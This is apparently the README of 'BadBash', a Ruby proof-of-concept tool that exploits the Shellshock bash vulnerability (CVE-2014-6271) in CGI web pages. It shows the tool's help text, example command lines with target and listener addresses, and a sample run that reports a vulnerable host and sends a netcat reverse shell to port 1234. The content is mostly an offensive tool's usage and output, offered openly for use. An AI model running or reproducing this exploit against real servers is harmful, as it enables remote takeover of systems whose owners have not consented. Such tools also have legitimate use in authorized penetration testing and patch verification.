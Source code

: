 BadBash
=======

CVE-2014-6271 (ShellShock) RCE PoC tool 

=======
BadBash is a CVE-2014-6271 RCE exploit tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.

Developer : Andy Yang 
Version : 0.1.0 
License : GPLv3

========

RainMak3r@Could:~/Desktop# ruby BadBash.rb -h

BadBash - CVE-2014-6271 RCE tool by Andy Yang Basic version only checks for HTTP site Basic version only provides netcat reverse shell on port 1234

EXAMPLE USAGE:

 ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
 ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
-t, --Target CGI path            Full path of CGI page
-d, --Destination IP             Your IP address that listen to an inbound connection
-h, --help                       Display help


==========

Example of usage.
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info] Checking if the target is vulnerable........

[Info] This may take up to 10 seconds........

[Info] Target is vulnerable!!!

[Info] Please use NC to listen on port 1234 for reverse shell..........

[Info] Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........
